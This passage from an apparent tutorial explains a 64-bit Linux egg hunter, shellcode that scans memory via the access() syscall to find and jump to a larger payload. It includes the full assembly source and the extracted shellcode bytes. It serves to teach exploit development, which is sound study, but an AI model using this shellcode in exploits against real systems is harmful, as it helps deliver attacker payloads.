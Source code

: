 If it occurs in **Step 4** that the address is accessible to us and we did not receive EFAULT we move a 4 byte value `0x9050904f` to EAX and increment the lower byte to get our egg value. You might be asking why do we do it this way. The reason for that is this way we wouldn't stumble upon our egg value within the egg hunter code as our goal is to find it from the beginning of our shellcode instead. Now that we have the egg value in EAX (don't forget little-endian here) we will use the [scasd](http://faydoc.tripod.com/cpu/scasd.htm) scan a string command to compare the egg value we search for with the value in RAX.

PS! RAX by convention holds the return value from the syscall. In our case it will be an address in memory which would possibly hold the value of the egg in the beginning of the shellcode.

If the values being checked for do not match, we can move on to another address within the same page. However if they do, we know that the address for our shellcode is in RDI so we make the jump there instead.

```
global _start
section .text
_start:

;STEP1
	;int access(const char *pathname, int mode);
	xor rsi, rsi
	push rsi
	pop rdi

;STEP2
go_to_next_page:
	or di, 0xfff
	inc rdi

;STEP3
forward_4_bytes:
	xor rax, rax
	mov al, 21
	syscall

;STEP4
efault_check:
	cmp al, 0xf2
	jz go_to_next_page
	mov eax, 0x9050904f
	inc al
	scasd
	jnz forward_4_bytes
	jmp rdi

```

So let's dump the egg hunter code with objdump in order to include it to our test C script to validate it's working:

```
 objdump -d ./egghunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x48\x31\xf6\x56\x5f\x66\x81\xcf\xff\x0f\x48\xff\xc7\x48\x31\xc0\xb0\x15\x0f\x05\x3c\xf2\x74\xed\xb8\x4f\x90\x50\x90\xfe\xc0\xaf\x75\xeb\xff\xe7"
```
